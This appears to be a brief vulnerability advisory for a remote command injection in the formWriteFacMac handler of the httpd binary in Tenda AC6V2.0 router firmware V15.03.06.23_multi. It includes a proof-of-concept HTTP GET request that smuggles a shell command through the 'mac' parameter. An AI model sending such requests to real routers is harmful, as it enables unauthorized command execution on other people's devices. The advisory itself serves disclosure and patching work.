


### Overview

- Vendor : Tenda
- Product : AC6V2.0
- Version : Tenda AC6V2.0 V15.03.06.23_multi
- Firmware download address : https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

A vulnerability was determined in Tenda AC6V2.0 V15.03.06.23_multi. This impacts the function formWriteFacMac of the file httpd. This manipulation of the argument mac causes command injection. The attack is possible to be carried out remotely. The exploit has been publicly disclosed and may be utilized.



### PoC

```
GET /goform/WriteFacMac?mac=;ps>axelioc HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.3/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: password=yzccvb
Connection: close

```

